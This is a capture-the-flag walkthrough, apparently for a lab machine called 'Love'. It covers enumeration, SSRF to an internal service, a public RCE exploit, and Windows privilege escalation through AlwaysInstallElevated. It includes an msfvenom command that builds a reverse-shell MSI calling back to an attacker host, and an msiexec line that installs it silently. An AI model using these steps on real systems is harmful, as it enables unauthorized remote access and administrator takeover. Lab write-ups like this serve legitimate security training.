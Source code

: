 # Love

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (8) (7).png" alt=""><figcaption></figcaption></figure>

Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.

<figure><img src="../../../.gitbook/assets/image (49) (4).png" alt=""><figcaption></figcaption></figure>

A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (39) (1) (3).png" alt=""><figcaption></figcaption></figure>

Checking the certificate on port 443 reveals a hidden sub-domain.

<figure><img src="../../../.gitbook/assets/image (8) (2) (4).png" alt=""><figcaption></figcaption></figure>

We can add this to the `/etc/hosts` file and view it.

### SSRF --> Authenticated RCE

The sub-domain found reveals this:

<figure><img src="../../../.gitbook/assets/image (20) (8) (1).png" alt=""><figcaption></figcaption></figure>

Signing up and viewing it would direct us to this page:

<figure><img src="../../../.gitbook/assets/image (36) (1) (2).png" alt=""><figcaption></figcaption></figure>

I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then run the exploit:

<figure><img src="../../../.gitbook/assets/image (42) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>
